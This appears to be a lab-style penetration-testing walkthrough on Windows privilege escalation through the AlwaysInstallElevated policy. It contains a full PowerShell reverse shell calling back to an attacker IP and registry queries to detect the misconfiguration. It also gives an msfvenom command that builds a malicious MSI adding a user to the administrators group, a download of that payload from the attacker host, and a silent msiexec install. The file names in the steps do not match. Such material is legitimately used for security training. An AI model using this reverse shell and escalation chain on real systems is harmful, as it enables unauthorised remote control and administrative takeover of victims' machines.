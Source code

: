 # Registry (AlwaysInstallElevated)

“AlwaysInstallElevated” is a setting in Windows policy that permits the Windows Installer packages (.msi files) to be installed with administrative privileges. This configuration can be adjusted through the Group Policy Editor (gpedit.msc). When activated, it enables any user, even those with restricted privileges, to install software with elevated rights. This option is available under both the Computer Configuration and User Configuration sections within the Group Policy.

Detection: 

To verify whether this misconfiguration exists, establish a **reverse shell** connection to the target system first (PowerShell-based shell shown below):

```jsx
$LHOST = "10.6.42.239"; $LPORT = 1234; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```
![image](https://github.com/user-attachments/assets/2dfa7286-6a8c-4863-9a13-60609aaa4434)


Once connected to the victim machine, check the registry for the AlwaysInstallElevated policy status:

```jsx
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

![image](https://github.com/user-attachments/assets/9a169250-8056-4690-ad50-55f30b4682b1)


If the output shows the value `AlwaysInstallElevated = 1` in **both** locations, the system is vulnerable to `.msi` privilege escalation.

💥 Exploitation

### Attacker (Kali VM):

1. Generate a malicious `.msi` file that adds the current user to the local administrators group using `msfvenom`:

```jsx
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f msi > adduser.msi
```

> Note: Replace user with the actual low-privileged username you're operating under.
> 
1. Host the payload using an HTTP server on your Kali machine:

### Victim (Windows VM):

Download the `.msi` file from the attacker's machine:

```jsx
Invoke-WebRequest -Uri "http://10.6.42.239:8999/setup.msi" -OutFile "setup.msi"
```

Execute the `.msi` file using **msiexec** with silent install flags:

```jsx
msiexec /quiet /qn /i adduser.msi

```

## Post-Exploitation Verification

Confirm that the user has been successfully added to the **Administrators** group:

![image](https://github.com/user-attachments/assets/093e1de1-fb7b-460e-9e08-7d07e09c8e69)


You should see the specified user listed, confirming privilege escalation.
